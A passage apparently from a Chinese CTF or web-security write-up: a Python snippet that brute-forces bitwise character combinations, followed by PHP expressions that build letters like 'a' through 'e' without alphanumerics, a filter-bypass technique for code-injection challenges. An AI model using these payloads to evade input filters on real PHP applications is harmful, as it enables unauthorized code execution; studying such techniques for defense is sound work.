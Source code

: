 ```php
        c1.append(chr(ord(i)&ord(j)))
print(set(c))

d1=[]
for i in set(b1+c1):
	for j in set(b1+c1):
		d.append(i+'与'+j+'--------'+chr(ord(i)&ord(j)))
		d1.append(chr(ord(i)&ord(j)))
print(set(d1+b1+c1))


a=raw_input("input you find: ")

for i in (b+c+d):
    if a in i:
        print(i)
        break
```



结果如下：

```php
1.0E+202
E ((99999999999999999999).(2)){3}
+ ((99999999999999999999).(2)){4}


@ (((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))

a  !|@  1&+|@  
((1).(1)){1}%26(((99999999999999999999).(2)){4})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))

b  "|@  2&+|@
((1).(2)){1}%26(((99999999999999999999).(2)){4})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))

    
c  #|@  3&+|@ 
((1).(3)){1}%26(((99999999999999999999).(2)){4})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))


d  $|@  4&.|@
((1).(4)){1}%26(((99999999999999999999).(2)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))

e  %|@  /&5|@  +|.&5|@
(((((99999999999999999999).(2)){4})|(((99999999999999999999).(2)){1}))%26((1).(5)){1})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))


abc
(((1).(1)){1}%26(((99999999999999999999).(2)){4})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).(((1).(2)){1}%26(((99999999999999999999).(2)){4})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1})))).(((1).(3)){1}%26(((99999999999999999999).(2)){4})|(((100000000000000000000).(1)){3})%26(~((((1).(7)){1})|(((1).(0)){1})|(((1.1).(1)){1}))))
```

